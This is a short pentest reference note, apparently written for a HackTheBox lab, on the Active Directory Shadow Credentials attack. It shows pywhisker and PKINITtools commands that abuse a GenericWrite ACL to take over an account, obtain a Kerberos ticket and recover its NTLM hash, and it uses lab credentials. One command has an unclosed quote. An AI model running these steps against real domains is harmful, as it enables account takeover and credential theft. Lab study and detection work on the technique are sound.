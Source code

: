 :PROPERTIES:
:ID:       90fa1659-4cda-4c38-b534-1c6ac76c8fd1
:END:
#+title: Pentest - Active Directory - Shadow Credentials
#+filetags: :kerberos:
#+hugo_base_dir:../



* Shadow Credentials
[[https://github.com/ShutdownRepo/pywhisker][pywhisker]]

Abuse the GenericWrite ACL to get control of an account by adding shadow credentials:

#+begin_src shell -n
python3 /opt/pywhisker/pywhisker.py -d "certified.htb" -u "judith.mader" -p "judith09" --target "management_svc" --action "add
#+end_src

The output is a PFX cert that can be used to authenticate as the user. Get a =TGT= for the user with [[https://github.com/dirkjanm/PKINITtools][PKINITtools]]:

#+begin_src shell -n
python3 /opt/PKINITtools/gettgtpkinit.py -cert-pfx vGRMeeb9.pfx certified.htb/management_svc -pfx-pass '25nQ6mg4JUTeQEjjNRE2' management_svc.ccache
#+end_src

This will create a Kerberos ticket called management_svc.ccache file, which we can export and use the key this output provides in conjunction with =getnthash.py= from the same toolkit to get the NTLM hash of the management_svc user.

** See also: [[https://github.com/ShutdownRepo/targetedKerberoast][targetedKerberos]]


** Links
[[https://www.dsinternals.com/en/indicator-of-compromise-shadow-credentials-ntlm-relay-impacket/][dsinternals]]
[[https://cyberstoph.org/posts/2022/03/detecting-shadow-credentials/][Detecting shadow credentials]]
[[https://www.thehacker.recipes/ad/movement/kerberos/shadow-credentials][hacker recipes]]
[[https://www.hackingarticles.in/shadow-credentials-attack/][hackingarticles]]
[[https://posts.specterops.io/shadow-credentials-abusing-key-trust-account-mapping-for-takeover-8ee1a53566ab][medium]]
